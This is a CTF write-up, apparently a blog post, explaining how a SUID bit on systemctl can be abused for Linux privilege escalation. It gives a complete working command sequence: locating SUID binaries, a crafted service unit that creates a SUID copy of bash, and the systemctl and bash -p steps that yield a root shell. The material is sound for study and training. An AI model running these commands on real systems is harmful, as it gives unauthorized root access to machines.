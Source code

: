 ```yaml
---
title: "SystemCTL SUID bit exploitation"
date: 2025-07-21
categories: CTF
layout: single
toc: true
toc_sticky: true
---
```


The SUID bit (Set owner User ID) is a special permission in Unix/Linux systems that, when set on an executable file, allows that file to be run with the permissions of the file’s owner, rather than the user who is running it. It is denoted with an `s` in the bit:

![SUID bit permission](/assets/images/suid.png)

If a binary owned by root has a SUID bit, the program will always run as root. This is extremely useful, especially in privilege escalation as we can do stuff like get a root shell.

In our case, the `systemctl` utility was assigned a SUID bit that we can exploit to gain a root shell by copying the output of `/bin/bash` to a file we make. The output of `/bin/bash` will be a root shell as in our case `systemctl` has a SUID bit and is owned by root.

> **Tip:** Locate all SUID bits with the command `find / -perm -u=s -type f 2>/dev/null`

## Exploitation

Firstly, we will create a file telling `systemctl` that when ran the output from `/bin/bash` should be written to `/tmp/rootbash` using SUID:

```bash
cat <<EOF > /tmp/rootme.service
[Unit]
Description=Root shell

[Service]
Type=simple
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'

[Install]
WantedBy=multi-user.target
EOF
```

We will then register this file with `systemctl`:

```bash
/bin/systemctl link /tmp/rootme.service
```

We can then enable the service:

```bash
/bin/systemctl enable --now rootme.service
```

Finally, we can run our `rootbash` file:

```bash
/tmp/rootbash -p
```

Note that the `-p` means that privileges should NOT be dropped. (Normally, when a SUID binary is ran, bash drops privileges for safety).

We should successfully obtain a root shell from this!
